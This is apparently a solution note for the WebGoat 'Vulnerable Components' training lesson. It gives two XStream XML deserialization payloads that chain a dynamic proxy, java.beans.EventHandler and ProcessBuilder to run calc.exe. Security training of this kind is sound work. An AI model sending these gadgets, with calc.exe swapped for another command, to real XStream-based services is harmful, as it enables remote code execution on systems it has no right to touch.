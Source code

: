 # Vulnerable Components
### 5
Simply try.

### 12 
DOES NOT WORK in WebGoat 8.2 (https://github.com/WebGoat/WebGoat/issues/1134)

but this should work:
<contact class='dynamic-proxy'>
  <interface>org.owasp.webgoat.vulnerable_components.Contact</interface>
  <handler class='java.beans.EventHandler'>
    <target class='java.lang.ProcessBuilder'>
      <command>
        <string>calc.exe</string>
      </command>
    </target>
    <action>start</action>
  </handler>
</contact>

or this:
<contact class='org.owasp.webgoat.vulnerable_components.Contact'>
  <handler class='java.beans.EventHandler'>
    <target class='java.lang.ProcessBuilder'>
      <command>
        <string>calc.exe</string>
      </command>
    </target>
    <action>start</action>
  </handler>
</contact>
